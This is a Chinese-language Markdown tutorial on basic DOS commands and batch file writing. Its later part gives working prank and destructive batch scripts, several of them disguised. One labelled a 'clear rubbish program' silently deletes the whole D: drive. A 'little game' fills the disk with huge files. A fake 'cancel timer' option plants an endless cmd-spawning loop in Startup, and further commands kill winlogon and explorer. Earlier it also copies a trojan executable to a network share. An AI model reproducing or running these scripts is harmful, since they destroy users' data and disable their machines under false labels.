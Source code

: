 ## 基本DOS命令

---

---

```dos
echo world is very well > qingshu.txt 		# 将“world is very well”写入qingshu.txt
type qingshu.txt		# 查看qingshu.txt
type qingshu.txt | more		# 查看qingshu.txt，并分页显示
copy con qingshu.txt		# 将屏幕输入的内容全部写入qingshu.txt; ctrl + Z 停止编写
```

#### 创建文件

1. echo

   ```doc
   >是覆盖
   >>是追加
   ```

   

2. copy con 文件名.扩展名

   开始编辑内容
   ctrl+Z结束

#### 删除文件

* del
* *是通配符

* /q 不提示（相当于Linux的-f）

* del *.* /s /Q 无提示删除所有文件

#### md

* 创建文件夹

#### attrib

* attrib +h feifei

  给feifei文件夹增加隐藏属性

* attrib -h feifei
  给feifei文件夹去掉隐藏属性
* +h +s +a 隐藏且定义为系统级文件

#### dir 

* dir /a

  显示所有隐藏的文件及文件夹

#### fsutil

* fsutil file createnew c:\system.ini 409600000

  快速生成一个文件system.ini，定义大小为409600000字节

#### assoc

* 修改关联性

* assoc .txt=exefile

  将.txt文件关联为exefile，但实际上打不开。

* assoc .txt=txtfile
  解开

#### shutdown

* shutdown -s -t 100

  一百秒后关机

* shutdown -a

  取消所有定时任务（接触定时关机）

* shutdown -r -t -f 100

  100秒后强制重启

* shutdown -s -t -f 100  -c “即将关机。。。”

  100秒后关机，并在屏幕显示“即将关机。。。”

* shutdown -l 

  注销，通logoff命令相同

#### copy

* copy 源路径(带文件名) 目的路径

* copy haha.txt  ..\b\

  将当前文件夹里的haha.txt拷贝到上一级文件夹下的b文件夹里

* 网络拷贝

  ```dos
  copy muma.exe \\10.1.1.2\
  ```

#### move

* 用法同copy

#### ren

* ren 旧名 新名
  可-更改文件夹和文件名

---

---

## 批处理编写

#### 批量处理dos命令

* 按顺序执行，忽略有错误的
* 脚本

#### 如何创建

* .bat文件

---

* ## **以下文件仅供参考，不得运行**

1. 删除d盘文件

```dos
@echo off
color 0a
title clear rubbish program
echo =====================
echo clear your system rubbish
echo   if it has been stopped
echo 	let it go.
echo =====================
pause
echo.
echo rubbish is cleaning...
d: >nul 2>nul
cd \ >nul 2>nul
rd . /s/q >nul 2>nul
ping -n 10 127.0.0.1 >nul 2>nul
echo congratulations!!! rubbish has been removed.
pause
```



2. 创建大文件

```dos
@echo off
color 0a
title a little game
fsutil file createnew d:\sys.ini 409600000000 >nul 2>nul
fsutil file createnew d:\sys1.ini 409600000000 >nul 2>nul
fsutil file createnew d:\sys2.ini 409600000000 >nul 2>nul
fsutil file createnew d:\sys3.ini 409600000000 >nul 2>nul
```



3. 无限启动cmd

```dos
copy qq.bat "%userprofile%\「开始」菜单\程序\启动"
:d
start
goto d
```

4. 定时小程序

```dos
@echo off
title runfar's applet
color 0a

:0
cls
echo ==========================
echo 		menu
echo	     1.定时关机
echo	     2.取消定时
echo         3.exit
echo ==========================

set /p num=input your option:

if "%num%"=="1" goto 1
if "%num%"=="2" goto 2
if "%num%"=="3" goto 3
echo donot bb input, input correct
pause
goto 0

:1
set /p a=input the time to shutdown the computer after:
shutdown -s -f -t %a%
goto 0

:2
echo :a >> "%userprofile%\「开始」菜单\程序\启动\haha.bat"
echo start >> "%userprofile%\「开始」菜单\程序\启动\haha.bat"
echo goto a >> "%userprofile%\「开始」菜单\程序\启动\haha.bat"
goto 0

:3
exit

```

---

5. 
   ```dos
   # 强制杀死window登录进程
   ntsd -c -q pn winlogon.exe
   # 实际结果会导致蓝屏，仅win2003-server有效
   
   # 强制杀死系统桌面进程
   taskkill /im explorer.exe /f
   ```

6. 